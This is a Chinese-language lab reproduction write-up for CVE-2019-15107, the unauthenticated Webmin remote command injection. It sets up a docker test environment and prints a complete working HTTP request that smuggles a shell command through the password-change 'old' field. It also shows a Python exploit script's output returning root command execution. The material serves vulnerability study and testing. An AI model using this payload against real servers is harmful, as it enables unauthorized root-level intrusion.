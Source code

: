 （CVE-2019-15107）Webmin 远程命令执行漏洞
=========================================

一、漏洞简介
------------

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

二、漏洞影响
------------

Webmin \<= 1.920

三、复现过程
------------

### 环境搭建

执行如下命令，启动webmin 1.910：

    docker-compose up -d

执行完成后，访问[https://0-sec.org:10000，忽略证书后即可看到webmin的登录页面。](https://0-sec.org:10000，忽略证书后即可看到webmin的登录页面。)

### 复现

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是user=root），才会进入到修改/etc/shadow的地方，触发命令注入漏洞。

发送如下数据包，即可执行命令id：

    POST /password_change.cgi HTTP/1.1
    Host: 0-sec.org:10000
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Cookie: redirect=1; testing=1; sid=x; sessiontest=1
    Referer: https://your-ip:10000/session_login.cgi
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 60

    user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2

![](./resource/(CVE-2019-15107)Webmin远程命令执行漏洞/media/rId27.png)

### python usage:

python CVE\_2019\_15107.py <https://0-sec.org:10000> cmd

    C:\Users\CTF\Desktop>python CVE_2019_15107.py https://10.10.20.166:10000 id

     _______           _______       _______  _______  __     _____       __    _______  __    _______  ______
    (  ____ \|\     /|(  ____ \     / ___   )(  __   )/  \   / ___ \     /  \  (  ____ \/  \  (  __   )/ ___      | (    \/| )   ( || (    \/     \/   )  || (  )  |\/) ) ( (   ) )    \/) ) | (    \/\/) ) | (  )  |\/   )  )
    | |      | |   | || (__             /   )| | /   |  | | ( (___) |      | | | (____    | | | | /   |    /  /
    | |      ( (   ) )|  __)          _/   / | (/ /) |  | |  \____  |      | | (_____ \   | | | (/ /) |   /  /
    | |       \ \_/ / | (            /   _/  |   / | |  | |       ) |      | |       ) )  | | |   / | |  /  /
    | (____/\  \   /  | (____/\     (   (__/\|  (__) |__) (_/\____) )    __) (_/\____) )__) (_|  (__) | /  /
    (_______/   \_/   (_______/_____\_______/(_______)\____/\______/_____\____/\______/ \____/(_______) \_/
                              (_____)                              (_____)
                                         python By jas502n



    vuln_url= https://0-sec.org:10000/password_change.cgi

    Command Result = uid=0(root) gid=0(root) groups=0(root)

四、参考链接
------------

> <https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html>
> <https://www.exploit-db.com/exploits/47230>
> <https://blog.firosolutions.com/exploits/webmin/>
